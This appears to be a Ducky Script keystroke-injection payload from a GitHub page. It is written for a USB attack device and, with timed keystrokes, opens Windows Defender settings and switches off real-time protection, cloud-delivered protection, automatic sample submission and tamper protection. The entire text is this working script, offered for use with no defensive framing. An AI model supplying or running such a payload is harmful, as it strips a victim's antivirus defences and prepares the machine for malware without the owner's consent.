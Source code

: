 ## **This script manually disable Windows Defender.**
***
DELAY 1000
<br>
REM Open Windows Defender settings
<br>
CTRL ESC
<br>
DELAY 1000
<br>
STRING Windows Defender Settings
<br>
DELAY 1000
<br>
ENTER
<br>
REM Navigate to Virus & Threat Protection 
<br>
DELAY 1000
<br>
ENTER
<br>
REM Navigate to Realtime Protection 
<br>
DELAY 1000
<br>
TAB
<br>
TAB
<br>
TAB
<br>
TAB
<br>
ENTER
<br>
REM Turn Off Realtime Protection
<br>
DELAY 1000
<br>
SPACE
<br>
DELAY 500
<br>
LEFT
<br>
DELAY 500
<br>
ENTER
<br>
REM Turn Off Cloud Delivered Protection
<br>
DELAY 500
<br>
TAB
<br>
DELAY 500
<br>
SPACE
<br>
DELAY 500
<br>
LEFT
<br>
DELAY 500
<br>
ENTER
<br>
REM Turn Off Automatic Sample submission
<br>
DELAY 500
<br>
TAB
<br>
DELAY 500
<br>
SPACE
<br>
DELAY 500
<br>
LEFT
<br>
DELAY 500
<br>
ENTER
<br>
REM Turn Off Temper Protection
<br>
DELAY 500
<br>
TAB
<br>
TAB
<br>
DELAY 500
<br>
SPACE
<br>
DELAY 500
<br>
LEFT
<br>
DELAY 500
<br>
ENTER
<br>
DELAY 2000
<br>
ALT F4